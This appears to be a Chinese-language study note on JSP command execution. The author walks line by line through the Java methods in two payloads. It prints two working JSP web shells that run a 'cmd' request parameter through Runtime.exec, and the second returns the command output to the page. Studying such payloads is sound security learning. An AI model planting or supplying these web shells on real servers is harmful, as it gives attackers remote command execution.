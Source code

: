 # Runtime 命令执行分析

- 主要是对于文档给出的 payload 进行简单分析，因为有一些 java 方法我不是很熟悉，所以阅读起来有点不舒服。

**runtime-exec2.jsp 执行 cmd 命令示例:**

```jsp
<%=Runtime.getRuntime().exec(request.getParameter("cmd"))%>
```

这是一个简单的 jsp 一句话木马，从外部接收 名为 cmd 的字符串将其作为 exec 方法的参数，不足之处在于无法看到命令执行的回显。

- 为什么我在 IDEA 里新建 jsp，但是对这个内容会爆红？不理解...
- 关于 request.getParameter 的具体含义可以参看[菜鸟教程](https://www.runoob.com/jsp/jsp-form-processing.html)

runtime-exec.jsp 执行 cmd 命令示例：



```jsp
<%=Runtime.getRuntime().exec(request.getParameter("cmd"))%>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import="java.io.ByteArrayOutputStream" %>
<%@ page import="java.io.InputStream" %>
<%
    InputStream in = Runtime.getRuntime().exec(request.getParameter("cmd")).getInputStream();

    ByteArrayOutputStream baos = new ByteArrayOutputStream();
    byte[] b = new byte[1024]; // 实例化一个字节数组
    int a = -1;

    while ((a = in.read(b)) != -1) {
        baos.write(b, 0, a);
    }

    out.write("<pre>" + new String(baos.toByteArray()) + "</pre>");
%>
```

- exec 方法执行后会返回一个 Process 类对象，这里调用到 Process类的 `getInputStream()` 方法。这个方法会返回连接到子进程输出的输入流，对于我们的 exec 执行来说，这个返回就可以用来连接到 exec 命令执行后对应子进程的输出流。

- `ByteArrayOutputStream baos = new ByteArrayOutputStream();` 这一行代码是什么意思？

![image-20230517101712030](picture/image-20230517101712030.png)

好的，注释告诉我们这个方法用来创建一个新的字节输出流。

- 可以看到 while 循环中是调用到 InputStream 的 read 方法，这个方法是干什么的？

这个方法用来读取输入流中的一些字节，并把这些字节存放到一个缓冲区数组里面。以下是参数和返回值示意：

![image-20230517102054015](picture/image-20230517102054015.png)

- 可以看到最后是调用是 ByteArrayOutputStream.write 方法，这个方法是干什么的？

![image-20230517102341675](picture/image-20230517102341675.png)

这个方法把指定字节数组中的数据写入到输出流。

- 最后还有一个 ByteArrayOutputStream.toByteArray() 方法，再看看这个：
  

![image-20230517102559348](picture/image-20230517102559348.png)

这个方法以一个字节数组的形式返回当前输出流的内容，最后我们通过 new String 的方式把这个字节数组里面的字节逐一转成 ascii 码值。

